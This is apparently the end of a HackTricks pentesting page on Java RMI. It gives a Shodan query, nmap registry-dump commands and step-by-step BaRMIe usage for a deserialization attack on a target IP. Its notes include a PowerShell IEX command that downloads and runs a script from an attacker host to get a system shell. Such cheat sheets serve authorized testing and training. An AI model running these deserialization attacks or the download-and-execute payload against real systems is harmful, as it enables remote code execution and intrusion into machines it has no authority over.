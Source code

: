 We can still achieve arbitrary Java deserialization by replacing object or array types in a method signature. **Unlike RMI-JRMP, `String` types can still be exploited in RMI-IIOP servers compiled with the latest build of the JDK8.**

## Shodan

* `port:1099 java`

## HackTricks Automatic Commands

```
Protocol_Name: Java-RMI    #Protocol Abbreviation if there is one.
Port_Number:  1098     #Comma separated if there is more than one.
Protocol_Description: Java Remote Method Inclusion         #Protocol Abbreviation Spelled out

Name: Notes
Description: Notes for Java-RMI
Note: """
The Java Remote Method Invocation, or Java RMI, is a mechanism that allows an object that exists in one Java virtual machine to access and call methods that are contained in another Java virtual machine; This is basically the same thing as a remote procedure call, but in an object-oriented paradigm instead of a procedural one, which allows for communication between Java programs that are not in the same address space.

nmap -sC -sV -Pn 10.11.1.73 -p 1100 
    may dump the reg of the java-rmi instance. If this is the case the machine may be vulnerable to a deserializaion exploit.
    BaRMIe.jar is the way to go to directly exploit this vulnerability.
    https://github.com/NickstaDB/BaRMIe/releases/tag/v1.01      is where the latest build is hosted, pre-built
    
useage
    java -jar BaRMIe_v1.01.jar -attack 10.11.1.73 1100
    target select)          1
    available attacks)    1 (illegal bind deserialization)
    payloads)                1 (Apache Common Collections 3.1 worked for me, others may also work)
    OS Command)         powershell.exe -command "IEX(new-object net.webclient).downloadstring('http://192.168.119.167:80/3232.ps1')"
    
    enjoy your system shell!

https://book.hacktricks.xyz/pentesting/1099-pentesting-java-rmi
"""

Name: Nmap RMI
Description: Nmap with RMI Scripts
Command: """nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1098 {IP}"""

Name: Nmap register
Description: Dump register of java-rmi instance
Command: """nmap -sC -sV -Pn {IP} -p 1100"""
```
